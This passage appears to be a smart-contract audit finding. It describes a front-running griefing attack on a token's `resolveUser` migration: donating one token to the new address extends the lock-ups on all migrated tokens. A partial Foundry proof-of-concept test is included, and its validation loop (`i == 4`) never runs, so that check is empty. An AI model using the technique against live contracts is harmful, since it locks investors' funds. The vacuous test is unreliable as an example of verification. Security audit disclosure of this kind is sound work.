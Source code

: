 The combination of how the tokens are migrated when resolving an investor and the algorithm's short-circuit as soon as a lock-up that has not expired is found, allows for a griefing attack where the tx to resolve an investor is frontran and 1 ChildToken is donated to the `newAddress`, the `ChildToken::resolveUser` function will migrate tokens to.
- The donation will create a lock on the `newAddress` for the entire `lockUpDuration`. This lock will be the first lock of the `newAddress`, which means all the existing tokens from the `oldAddress` will be appended **after** that new lock. In other words, all existing locks at the `oldAddress` will remain locked until the new lock reaches the `lockUpDuration`, regardless of whether the `lockUpDuration` for those locks has already been met.


**Impact:** Existing lock durations can be gamed, forcing the locks on the newAddress to last longer than they should

**Proof of Concept:** Add the next PoC to `ChildTokenAdminTest.t.sol` test file.
The PoC demonstrates:
1. Resolving users should preserve the existing locks on the `oldUser` (When the attack is not performed)
2. The migrated tokens on the `newUser` get locked for a longer duration if the attack is performed.
```solidity
    function test_GrieffAttacToExtendLocksWhenResolving() public {
        uint32 DEFAULT_LOCK_TIME = 365 days;
        uint32 QUART_LOCKTIME = DEFAULT_LOCK_TIME / 4;

        address oldUser = getDomesticUser(1);
        address newUser = getDomesticUser(2);
        address extraInvestor = getDomesticUser(3);

        centralTokenProxy.mint(address(this), uint64(2));
        centralTokenProxy.dynamicTransfer(extraInvestor, 2);

        vm.warp(DEFAULT_LOCK_TIME);

        centralTokenProxy.mint(address(this), uint64(4));
        centralTokenProxy.dynamicTransfer(oldUser, 1);

        // Distribute payout!
        IERC20(address(stableCoin)).approve(address(paySettlerProxy), type(uint256).max);
        paySettlerProxy.distributePayment(address(centralTokenProxy), address(this), 300); // 300 USD(6) total

        vm.warp(block.timestamp + QUART_LOCKTIME);
        centralTokenProxy.mint(address(this), uint64(1));
        centralTokenProxy.dynamicTransfer(oldUser, 1);

        vm.warp(block.timestamp + QUART_LOCKTIME);
        centralTokenProxy.mint(address(this), uint64(1));
        centralTokenProxy.dynamicTransfer(oldUser, 1);

        vm.warp(block.timestamp + QUART_LOCKTIME);
        centralTokenProxy.mint(address(this), uint64(1));
        centralTokenProxy.dynamicTransfer(oldUser, 1);

        uint256 snapshot1 = vm.snapshot();
            //@audit-info => Validate each 3 months a new token would've been unlocked!
            for(uint8 i = 1; i == 4; i++) {
                vm.warp(block.timestamp + (QUART_LOCKTIME * i));
                assertEq(d_childTokenProxy.availableTokens(oldUser),i);
            }
        vm.revertTo(snapshot1);


        //@audit-info => Resolving the oldUser without the grieffing attack being executed!
        d_childTokenProxy.resolveUser(oldUser, newUser);
```